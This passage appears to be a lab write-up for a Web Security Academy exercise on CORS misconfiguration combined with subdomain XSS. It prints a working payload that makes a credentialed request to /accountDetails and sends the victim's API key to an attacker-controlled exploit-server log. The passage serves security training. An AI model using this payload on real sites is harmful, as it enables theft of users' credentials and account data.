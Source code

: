 ```html
<script>
    document.location="http://stock.0adc002b04a1979ac0f1efab00aa0062.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0adc002b04a1979ac0f1efab00aa0062.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a1d004d045797b8c041ee4d01fb0039.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Payload above will be served on our exploit server. For better readability, this is the script that is provided into XSS payload

```html
<script>

var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://0adc002b04a1979ac0f1efab00aa0062.web-security-academy.net/accountDetails',true); 
req.withCredentials = true;req.send();

function reqListener() {
  location='https://exploit-0a1d004d045797b8c041ee4d01fb0039.exploit-server.net/log?key='%2bthis.responseText; 
  };

</script>
```

Victim should connect to our server unknowingly. We should see an entry with APIKey in our logs.

![picture 6](/assets/images/3e8ca303e636472f636097e2f413825772f85e551677d94e33d5d00d3986d982.png)  

# CORS vulnerability with internal network pivot attack
